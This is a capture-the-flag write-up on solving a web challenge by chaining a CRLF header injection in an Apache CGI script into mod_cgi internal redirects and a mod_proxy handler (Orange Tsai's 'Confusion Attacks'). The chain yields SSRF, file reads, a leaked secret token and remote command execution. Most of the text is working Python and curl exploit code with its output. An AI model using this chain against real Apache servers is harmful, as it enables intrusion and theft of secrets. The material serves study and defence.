C0nfused Surfing — Full Writeup
> Published: August 31, 2026 | ⏱ 12 min read | Author: gr4ktung
[!] INTEL_UPDATE:
I was playing dirtbags & flags CTF 2026 and I got the 12th position out of 479 under the alias gr4ktung.
Category: Web
Target: https://d095f97642da70d3.live.sbhost.io
Vulnerability class: Apache "Confusion Attacks" (Orange Tsai, Black Hat 2024) — RCE via a CRLF injection chained into a mod_cgi server-side redirect that triggers a mod_proxy (SSRF) handler, then a second SSRF through the localhost CGI proxy.

1. The challenge source
Everything runs inside one Apache 2.4.54 container (php:7.4-apache). Two CGI scripts under /usr/lib/cgi-bin/:
cgi-bin/admin — command execution behind a token
SECRET_TOKEN = getenv('SECRET')
form = cgi.FieldStorage()
token = form.getvalue("token")
command = form.getvalue("command")
if token == SECRET_TOKEN:
if command:
result = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT, text=True)
else:
print("Location: /")
else:
# Fix this
print(f"Location: /error?msg=Invalid {token}") # <-- CRLF injection
print("Content-Type: text/html\n")
print()
if result:
print(result)
If the token matches, it executes any shell command as www-data. The flag lives in /root/flag.txt (0600 root, and /root isn't traversable by www-data), only readable through the setuid-root helper /FLAG_<random8> compiled from getflag.c.
cgi-bin/proxy — SSRF, restricted to localhost
form = cgi.FieldStorage()
location = form.getvalue('location')
print("Content-Type: text/html\n")
print()
try:
print(urlopen(location).read().decode())
except Exception as e:
print(f"Error: {e}")
Python urllib.request.urlopen() → full SSRF (including file://).
apache2.conf — the wall in front of proxy
SetEnv SECRET SuperSecretToken # local value only; live instance randomizes it
<Location "/cgi-bin/proxy">
Order deny,allow
Deny from all
Allow from 127.0.0.1
Allow from ::1
</Location>
So:
/cgi-bin/admin reachable externally, token unknown on live./cgi-bin/proxy only reachable from 127.0.0.1, and we can only talk to the server remotely.
2. Recon that mattered
2.1 Local environment
docker-compose.yml runs the challenge locally on port 5000 with the fake flag.
docker ps
curl -s http://127.0.0.1:5000/
2.2 Baseline checks (local)
curl -s "http://127.0.0.1:5000/cgi-bin/admin?token=SuperSecretToken&command=ls+/"

curl -s -i "http://127.0.0.1:5000/cgi-bin/admin"
curl -s -i "http://127.0.0.1:5000/cgi-bin/proxy?location=http://127.0.0.1/"
Note: connecting to 127.0.0.1:5000 from the host does not make Apache see 127.0.0.1. Docker DNATs the connection, so Apache sees the docker bridge gateway (e.g. 172.17.0.1). That is why even "localhost" requests get the proxy 403 locally.
2.3 Live recon
T="d095f97642da70d3.live.sbhost.io"
curl -s -o /dev/null -w "%{http_code}\n" "https://$T/cgi-bin/proxy"


curl -s -i --max-time 20 "https://$T/cgi-bin/admin" \
--data-urlencode $'token=x\nX-Injected: yes'

curl -s -o /dev/null -w "%{http_code}\n" \
"https://$T/cgi-bin/admin?token=SuperSecretToken&command=id"
Conclusion: admin + CRLF works externally, we don't know the token, and we can't reach proxy directly. The solve must chain them.
3. Key vulnerability — Apache "Confusion Attacks"
From Orange Tsai's research (CVE-2024-38475/38476/38477, "Confusion Attacks"):
When a CGI returns Location: /path with status 200, mod_cgi performs an internal server-side redirect (RFC 3875 §6.2.2). Crucially:
if (r->handler)
ap_set_content_type(new, r->content_type); // copies the CGI's Content-Type into the redirected request
...
access_status = ap_invoke_handler(new); // handler chosen from that Content-Type
So if we can control the CGI response headers (we can, via the CRLF injection) we can make the internally-redirected request be handled by mod_proxy by setting:
Content-Type: proxy:http://<any-url>/
→ Apache connects to <any-url> from the server itself (127.0.0.1), bypassing the Location /cgi-bin/proxy ACL, and relays the full response back to us.
Local proof (the redirect target /ooo gets picked up by the proxy: handler and SSRF's index.php):
docker exec $(docker ps -q) python3 -c "
import urllib.parse, urllib.request
tok = 'x\\r\\nLocation: /ooo\\r\\nContent-Type: proxy:http://127.0.0.1/index.php\\r\\n'
url = 'http://127.0.0.1/cgi-bin/admin?' + urllib.parse.urlencode({'token': tok})
r = urllib.request.urlopen(url, timeout=15)
print(r.status); print(r.read().decode()[:200])
"

Verified two subtleties:
- Our injected (second/last)
Location header wins.
- Our injected
Content-Type: proxy:... wins over admin's own Content-Type: text/html.
4. Step-by-step local testing
Step 4.1 — SSRF via admin CRLF -> mod_proxy handler
C=$(docker ps -q)
docker exec "$C" python3 -c "
import urllib.parse, urllib.request
tok = 'x\\r\\nLocation: /ooo\\r\\nContent-Type: proxy:http://127.0.0.1/index.php\\r\\n'
url = 'http://127.0.0.1/cgi-bin/admin?' + urllib.parse.urlencode({'token': tok})
r = urllib.request.urlopen(url, timeout=15)
print(r.status)
print(r.read().decode()[:120])
"
X-Powered-By: PHP/7.4.33 in the response confirms mod_proxy actually fetched and served /index.php.
Step 4.2 — Chain to the localhost CGI proxy to read file://
mod_proxy appends the redirected request's filename (/var/www/html/ooo) to the URL. We absorb that junk with a trailing &junk= parameter so it becomes an unused query value.
python3 - <<'EOF'
import urllib.parse, urllib.request
def crlf(token_raw):
url = "http://127.0.0.1:5000/cgi-bin/admin?" + urllib.parse.urlencode({"token": token_raw})
return urllib.request.urlopen(url, timeout=20).read().decode()
loc = "file:///etc/apache2/conf-enabled/servername.conf"
inner = "http://127.0.0.1/cgi-bin/proxy?location=" \
+ urllib.parse.quote(loc, safe="") + "&junk="
tok = "x\r\nLocation: /ooo\r\nContent-Type: proxy:" + inner + "\r\n"
print(crlf(tok))
EOF

This proves: external request -> admin CRLF -> internal redirect -> Content-Type: proxy: handler -> mod_proxy connects to 127.0.0.1/cgi-bin/proxy (ACL passes, source = 127.0.0.1) -> python urlopen("file:///etc/apache2/conf-enabled/servername.conf") -> file contents relayed back.
Step 4.3 — Discovered quirk: mod_proxy lowercases the query
Trying to reach admin through the proxy for command execution produced only Error: HTTP Error 404: Not Found, despite the direct path working. A debug CGI pinpointed it:
C=$(docker ps -q)
docker exec "$C" sh -c 'cat > /usr/lib/cgi-bin/debug <<"EOF"
#!/bin/sh
echo "Content-Type: text/plain"; echo
echo "SECRET=[$SECRET]"; echo "QUERY=[$QUERY_STRING]"
EOF
chmod 755 /usr/lib/cgi-bin/debug'
docker exec "$C" sh -c 'curl -s "http://127.0.0.1/cgi-bin/proxy?location=http%3A%2F%2F127.0.0.1%2Fcgi-bin%2Fdebug%3Ftoken%3DSuperSecretToken"'
python3 - <<'EOF'
import urllib.parse, urllib.request
def crlf(tok_raw):
url = "http://127.0.0.1:5000/cgi-bin/admin?" + urllib.parse.urlencode({"token": tok_raw})
return urllib.request.urlopen(url, timeout=20).read().decode()
loc = "http://127.0.0.1/cgi-bin/debug?token=SuperSecretToken"
inner = "http://127.0.0.1/cgi-bin/proxy?location=" + urllib.parse.quote(loc, safe="") + "&junk="
tok = "x\r\nLocation: /ooo\r\nContent-Type: proxy:" + inner + "\r\n"
print(crlf(tok))
EOF

That's why the token check failed (token=SuperSecretToken became token=supersecrettoken).
Fix: percent-encode every byte of the inner target (%xx hex is all lowercase, so lowercasing is a no-op), and the proxy's FieldStorage decodes it back to the original mixed-case URL.
def full_encode(s):
return "".join("%%%02x" % b for b in s.encode())
(urllib.parse.quote leaves letters unencoded — that's what was getting lowercased.)
Local verification with the fix:
import urllib.parse, urllib.request
def crlf(tok_raw):
url = "http://127.0.0.1:5000/cgi-bin/admin?" + urllib.parse.urlencode({"token": tok_raw})
return urllib.request.urlopen(url, timeout=20).read().decode()
def full_encode(s):
return "".join("%%%02x" % b for b in s.encode())
loc = "http://127.0.0.1/cgi-bin/debug?X=ABC&Token=SuperSecretToken"
inner = "http://127.0.0.1/cgi-bin/proxy?location=" + full_encode(loc) + "&junk="
tok = "x\r\nLocation: /ooo\r\nContent-Type: proxy:" + inner + "\r\n"
Step 4.4 — Full RCE locally through the chain
import urllib.parse, urllib.request
def crlf(tok_raw):
url = "http://127.0.0.1:5000/cgi-bin/admin?" + urllib.parse.urlencode({"token": tok_raw})
return urllib.request.urlopen(url, timeout=20).read().decode()
def full_encode(s):
return "".join("%%%02x" % b for b in s.encode())
def run_cmd(cmd, secret="SuperSecretToken"):
target = "http://127.0.0.1/cgi-bin/admin?token=%s&command=%s" % (secret, urllib.parse.quote(cmd))
inner = "http://127.0.0.1/cgi-bin/proxy?location=" + full_encode(target) + "&junk="
tok = "x\r\nLocation: /ooo\r\nContent-Type: proxy:" + inner + "\r\n"
return crlf(tok)
print(run_cmd("id"))
print(run_cmd("ls /"))
print(run_cmd("/FLAG_nnfzvThj"))

5. Exploitation on the live server
Step 5.1 — Read the Apache config to recover the per-instance SECRET
The SetEnv SECRET line lives in /etc/apache2/conf-enabled/servername.conf; the file:// read through the proxy leaks it.
python3 - <<'EOF'
import urllib.parse, urllib.request, urllib.error, ssl
ctx = ssl._create_unverified_context()
HOST = "https://d095f97642da70d3.live.sbhost.io"
def crlf(tok_raw):
url = HOST + "/cgi-bin/admin?" + urllib.parse.urlencode({"token": tok_raw})
try:
r = urllib.request.urlopen(urllib.request.Request(url, headers={"User-Agent":"Mozilla/5.0"}), timeout=25, context=ctx)
return r.read().decode(errors="replace")
except urllib.error.HTTPError as e:
return e.read().decode(errors="replace")
loc = "file:///etc/apache2/conf-enabled/servername.conf"
inner = "http://127.0.0.1/cgi-bin/proxy?location=" + urllib.parse.quote(loc, safe="") + "&junk="
tok = "x\r\nLocation: /ooo\r\nContent-Type: proxy:" + inner + "\r\n"
print(crlf(tok))
EOF
Output (leaked secret):
ServerName ConfusedSurfing
SetEnv SECRET yVrWyoipmMDJB5
<Location "/cgi-bin/proxy"> ...

The live instance randomizes SECRET per deployment — that's why SuperSecretToken always failed.
Step 5.2 — RCE through the proxy using the leaked token
Same chain, but the target of the inner SSRF is the admin CGI with the real token. The token is byte-percent-encoded so mod_proxy's lowercasing doesn't damage it.
python3 - <<'EOF'
import urllib.parse, urllib.request, urllib.error, ssl
ctx = ssl._create_unverified_context()
HOST = "https://d095f97642da70d3.live.sbhost.io"
SECRET = "yVrWyoipmMDJB5"
def crlf(tok_raw):
url = HOST + "/cgi-bin/admin?" + urllib.parse.urlencode({"token": tok_raw})
try:
r = urllib.request.urlopen(urllib.request.Request(url, headers={"User-Agent":"Mozilla/5.0"}), timeout=25, context=ctx)
return r.read().decode(errors="replace")
except urllib.error.HTTPError as e:
return e.read().decode(errors="replace")
def full_encode(s):
return "".join("%%%02x" % b for b in s.encode())
def run_cmd(cmd):
target = "http://127.0.0.1/cgi-bin/admin?token=%s&command=%s" % (SECRET, urllib.parse.quote(cmd))
inner = "http://127.0.0.1/cgi-bin/proxy?location=" + full_encode(target) + "&junk="
tok = "x\r\nLocation: /ooo\r\nContent-Type: proxy:" + inner + "\r\n"
return crlf(tok)
print(run_cmd("id"))
print(run_cmd("ls -la /"))
EOF
ls -la / shows the setuid flag-reader:
-rwsr-xr-x. 1 root root 16864 Jul 19 14:01 FLAG_NGpFllcO
